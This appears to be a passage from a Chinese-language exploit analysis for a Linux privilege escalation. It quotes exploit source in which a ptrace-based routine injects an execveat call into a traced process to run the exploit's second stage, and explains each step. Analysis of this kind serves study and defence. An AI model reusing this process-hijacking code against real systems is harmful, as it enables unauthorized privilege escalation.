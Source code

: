 ```
210   SAFE(waitpid(midpid, &amp;dummy_status, 0));
211   fputs("attached to midpidn", stderr);
212 
213   force_exec_and_wait(midpid, 0, "stage2");
214   return 0;

```

接下去回到 task A 的 main 函数， 行 194 ~ 202, task A 检测到 task B 的 binary comm 变成 helper 之后，<br>
运行行 213 执行 force_exec_and_wait

```
116 static void force_exec_and_wait(pid_t pid, int exec_fd, char *arg0) `{`
117   struct user_regs_struct regs;
118   struct iovec iov = `{` .iov_base = &amp;regs, .iov_len = sizeof(regs) `}`;
119   SAFE(ptrace(PTRACE_SYSCALL, pid, 0, NULL));
120   SAFE(waitpid(pid, &amp;dummy_status, 0));
121   SAFE(ptrace(PTRACE_GETREGSET, pid, NT_PRSTATUS, &amp;iov));
122 
123   /* set up indirect arguments */
124   unsigned long scratch_area = (regs.rsp - 0x1000) &amp; ~0xfffUL;
125   struct injected_page `{`
126     unsigned long argv[2];
127     unsigned long envv[1];
128     char arg0[8];
129     char path[1];
130   `}` ipage = `{`
131     .argv = `{` scratch_area + offsetof(struct injected_page, arg0) `}`
132   `}`;
133   strcpy(ipage.arg0, arg0);
134   for (int i = 0; i &lt; sizeof(ipage)/sizeof(long); i++) `{`
135     unsigned long pdata = ((unsigned long *)&amp;ipage)[i];
136     SAFE(ptrace(PTRACE_POKETEXT, pid, scratch_area + i * sizeof(long),
137                 (void*)pdata));
138   `}`
139 
140   /* execveat(exec_fd, path, argv, envv, flags) */
141   regs.orig_rax = __NR_execveat;
142   regs.rdi = exec_fd;
143   regs.rsi = scratch_area + offsetof(struct injected_page, path);
144   regs.rdx = scratch_area + offsetof(struct injected_page, argv);
145   regs.r10 = scratch_area + offsetof(struct injected_page, envv);
146   regs.r8 = AT_EMPTY_PATH;
147 
148   SAFE(ptrace(PTRACE_SETREGSET, pid, NT_PRSTATUS, &amp;iov));
149   SAFE(ptrace(PTRACE_DETACH, pid, 0, NULL));
150   SAFE(waitpid(pid, &amp;dummy_status, 0));
151 `}`
```

函数 force_exec_and_wait 的作用是使用 ptrace 控制 tracee 执行 execveat 函数替换进程的镜像, 这里它控制 task B 执行了 task A 的进程（即 exploit 的可执行程序）然后参数为 stage2, 这实际上就是让 task B 执行了 middle_stage2 函数
